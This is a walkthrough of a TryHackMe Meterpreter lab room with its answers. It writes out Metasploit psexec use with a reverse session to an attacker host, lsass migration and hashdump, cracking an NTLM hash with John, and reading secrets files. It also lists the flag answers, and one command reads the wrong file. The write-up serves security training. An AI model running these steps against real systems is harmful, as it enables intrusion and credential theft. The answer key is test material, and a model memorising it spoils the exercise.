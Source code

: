 ```yaml
---
description: >-
  Take a deep dive into Meterpreter, and see how in-memory payloads can be used
  for post-exploitation.
---
```


# Metasploit: Meterpreter

{% embed url="https://tryhackme.com/room/meterpreter" %}
https://tryhackme.com/room/meterpreter
{% endembed %}

## Task 5 Post-Exploitation Challenge

```
msfconsole
msf > use exploit/windows/smb/psexec
msf > set RHOSTS 10.10.57.161
msf > set SMBUSER ballen
msf > set SMBPASS Password1
msf > set LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-38-40.png>)

#### What is the computer name?

```bash
sysinfo
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-47-12.png>)

{% hint style="success" %}
`ACME-TEST`
{% endhint %}

#### What is the target domain?

{% hint style="success" %}
FLASH
{% endhint %}

#### What is the name of the share likely created by the user?

```bash
meterpreter > shell
net share
exit
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-51-06.png>)

{% hint style="success" %}
`speedster`
{% endhint %}

#### What is the NTLM hash of the jchambers user?

* <mark style="color:red;">Works on AttackBox</mark>

```bash
ps lsass.exe
migrate 756
hashdump
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 21-12-32.png>)

{% hint style="success" %}
`69596c7aa1e8daee17f8e78870e25a5c`
{% endhint %}

#### What is the cleartext password of the jchambers user?

```bash
echo 'jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::' > hash.txt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 21-15-36.png>)

{% hint style="success" %}
`Trustno1`
{% endhint %}

#### Where is the "secrets.txt" file located?

```bash
search -d C:\\ -f secrets.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-42-53.png>)

{% hint style="success" %}
`C:\Program Files (x86)\Windows Multimedia Platform\`
{% endhint %}

#### What is the Twitter password revealed in the "secrets.txt" file?

{% hint style="success" %}
`KDSvbsw3849!`
{% endhint %}

#### Where is the "realsecret.txt" file located?

```bash
search -d C:\\ -f realsecret.txt
cat 'C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-09 20-45-40.png>)

{% hint style="success" %}
`C:\inetpub\wwwroot\`
{% endhint %}

#### What is the real secret?

{% hint style="success" %}
`The Flash is the fastest man alive`
{% endhint %}

